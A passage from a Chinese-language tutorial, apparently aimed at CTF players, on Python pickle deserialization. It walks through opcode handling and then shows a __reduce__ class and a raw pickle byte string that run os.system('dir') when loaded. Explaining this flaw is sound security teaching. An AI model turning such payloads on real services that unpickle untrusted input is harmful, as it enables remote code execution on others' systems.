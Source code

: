 [![](assets/1705886719-593bb0243f91b8dce96e3da82fd893b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211124-3f4aaad0-b6cc-1.png)

> 从代码中可以看到，如果 inst 中拥有\_\_setstate\_\_方法，则会将 state 交给 setstate() 方法进行处理，否则就将 inst 中的内容，通过遍历的方法，将 state 的内容合并到 inst\_dict 字典中。

12、最后全部做完后，当前栈就剩下了完整的 B 实例，然后读取下一个。指令代表着 STOP，即反序列化结束。

# 漏洞产生 (**reduce**)

简单了解了 pickle 反序列化的大概原理和流程，下面就可以分析下漏洞产生的原理。在 CTF 比赛中，pickle 反序列化大多数都可以直接利用\_\_reduce\_\_方法，可以通过\_\_reduce\_\_构造恶意的字符串，从而在被反序列化的时候，导致\_\_reduce\_\_被执行，从而操作 RCE。我们以下面代码为例：

```plain
import os
import pickle
import pickletools

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd
    def __reduce__(self):
        return (os.system,('dir',))

# x = B('123', 'password')
# payload=pickle.dumps(x)
# print(payload)
# pickletools.dis(payload)
pickle._loads(b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x03dir\x94\x85\x94R\x94.')
```